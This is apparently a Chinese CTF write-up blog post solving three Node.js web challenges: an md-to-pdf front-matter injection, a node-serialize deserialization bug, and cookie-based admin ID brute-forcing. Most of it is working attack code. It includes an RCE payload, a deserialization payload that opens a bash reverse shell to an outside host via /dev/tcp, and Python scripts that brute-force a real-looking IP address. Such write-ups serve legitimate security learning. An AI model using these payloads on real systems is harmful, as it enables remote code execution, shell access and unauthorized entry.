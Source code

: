 ```yaml
---
layout: post
title: js测验胡徜
categories: [blog ]
tags: [JavaScript,]
description: "测验"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 


---
```


`测试`

![](/img/swirl/11.jpg)

## web1

题目是直接给出附件的，大概的功能就是一个md转pdf

网上搜了一下确实有漏洞

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![image-20230928091608629](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928091608629.png)

![image-20230928092224117](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928092224117.png)

可是一直报错。。不理解

```java
{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"whoami\"))\n---RCE"}
```

## web2

一个js反序列化的题目

```java
var express = require('express');//这个就一个js文件
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var bodyParser = require('body-parser');
var app = express();
var path = require('path');
app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.set('view engine', 'ejs');

app.get('/', (req,res) => {
	res.render('home.ejs');//渲染home.ejs
});

app.post('/', (req,res) => {
	res.render('loggedin.ejs')
});

app.get('/guest', function(req, res) {
   res.render('guest.ejs');
});

app.post('/guest', function(req, res) {
   if (req.cookies.guest) {//提取guest中的cookie
   	var str = new Buffer(req.cookies.guest, 'base64').toString();//base64加密
   	var obj = serialize.unserialize(str);//这里反序列化没太看懂
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username //输入username
	 var country = req.body.country  //输入country
 	 var city = req.body.city   // 输入city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
app.listen(process.env.PORT || 7777);
console.log("Listening on port 7777...");
```

很明显看出来就是一个serialize的问题

https://zhuanlan.zhihu.com/p/25581847

https://cloud.tencent.com/developer/article/1374840

payload

```
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('bash -c \"bash -i >&
/dev/tcp/4vps/4444 0>&1\"',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}  
```

## web3

```javascript
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")// 猜测漏洞是ejs模板的问题，然后flag再 env中
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [//这里看着像定义用户信息之类的
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "****",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")//这里获得的就是当前的对象
    //需要我们传一个userData名字的cookie
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {//这是判断cookies中userData字段 继续userId
        const {userID, username} = req.cookies.userData//传送一个json

        if(req.cookies.userData.userID === admin.userID) //这里因为本来的userid就是不可见的
            res.render("home.ejs", {username: username, flag: process.env.FLAG})//这里如果满足才会出现flag
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```

流程非常简单

其实就是判断输入的cookie中的	userid是否和 管理员中的userid值相等，如果相等就会返回flag

看了看有没有原型链污染的漏洞，最后发现没有，所以尝试爆破userid



`一开始自己写的脚本` (不忍直视)

```python
import requests
a="0123456789"
for i in a :
    for j in a:
        for n in a:
            for m in a:

                 string={"username":"JYcxk","userID":i+j+n+m}
                 url="http://43.129.87.71:10003/"
                 res=requests.get(url=url,json=string)
                 if "{" in res.text:
                  print(res.text)
```

参考了以下✌的发现，需要先登陆看下cookie（源码给出了一个账号用来登陆）

```python
import requests
url="http://43.129.87.71:10003/"
for i  in range(100,1000):
    cookie={"userData":f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22kupatergent%22%7D"}
    res=requests.get(url,cookies=cookie)
    if 'flag{' in res.text:
        print(res.text)
        break
```

![image-20230928161455123](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161455123.png)

```
j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22kupatergent%22%7D
```

![image-20230928161903282](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161903282.png)